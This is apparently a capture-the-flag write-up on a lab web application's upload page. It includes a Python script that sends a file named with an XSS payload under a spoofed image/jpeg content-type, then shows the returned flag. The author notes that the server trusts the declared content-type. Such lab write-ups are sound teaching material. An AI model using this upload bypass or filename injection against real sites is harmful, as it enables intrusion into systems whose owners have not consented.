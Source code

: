 # http://192.168.99.100/index.php?page=upload

i tried uploading several files to this page via browser and noticed that it only accepts `jpg` images
it also prints the filename once the upload is successfull

here is a little python script i wrote

```py
#!/usr/bin/env python3

import requests

url = 'http://192.168.99.100/?page=upload'

f = { 
        'uploaded':                                 # .. from <form> element in html
            ("<script>alert('xss')</script>",       # file name
                'file_contents',                    # actual file contents, normaly `open(fn, 'rb')`
                'image/jpeg')                       # content-type
        }

d = {
        'Upload': 'Upload'                          # from <form> element in html
        }

r = requests.post(url, files=f, data=d)
print(r.text)
```

upon running the script we get the flag
```sh
e1z2r10p4% python3 upload.py | grep flag
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/script> succesfully uploaded.</pre>
```


the filename i provided is not valid in unix environments because of the `/` in `</script>`, 
if it was, this could be an attack vector, its possible that the filename is valid on windows, but i'm not 100% on this

i think the lesson to be learned here is that the actual contents of the file do not match the `content-type` meta
content-type is set to `image/jpeg` but we're still able to upload files with arbitrary content

#### we have the flag `46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`
nice

